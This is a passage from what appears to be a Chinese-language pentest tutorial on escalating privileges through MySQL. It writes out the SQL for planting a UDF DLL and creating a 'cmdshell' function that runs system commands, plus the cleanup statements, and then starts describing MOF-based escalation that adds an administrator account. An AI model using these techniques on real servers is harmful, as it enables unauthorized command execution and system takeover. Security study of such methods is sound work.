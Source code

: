 导出dll文件进行命令执行，修改`php.ini`中`secure_file_priv=''`为空，不然不能导入文件，如果脚本没法导出udf文件，也可以手动将该文件复制到plugin文件夹下，也可以手工导入：

```mysql
select load_file('udf.dll文件位置') into dumpfile "导入的plugin文件夹位置"
```

使用脚本导入。

![安装dll文件](./MySQL/安装dll文件.png)

![文件确认](./MySQL/文件确认.png)

创建shell函数，创建完成后即可执行命令，也可以手动创建函数。

```mysql
create function cmdshell returns string soname 'udf.dll' # 创建函数
select cmdshell('执行的系统命令'); # 执行系统命令
drop function cmdshell; # 删除函数 
delete from mysql.func where name='cmdshell' # 删除函数
```

当然使用udf马进入操作，执行成功。

![执行成功](./MySQL/执行成功.png)

### MOF提权

这个是，基于MySQL特性的安全问题，成功率低。

导出自定义mof文件到系统目录加载。

**mof提权的原理：**

mof是windows系统的一个文件（在c:/windows/system32/wbem/mof/nullevt.mof）叫做"托管对象格式"其作用是每隔五秒就会去监控进程创建和死亡。

方法就是用了mysql的root权限了以后，然后使用root权限去执行我们上传的mof。隔了一定时间以后这个mof就会被执行。

这个mof当中有一段是vbs脚本，这个vbs大多数的是cmd的添加管理员用户的命令。
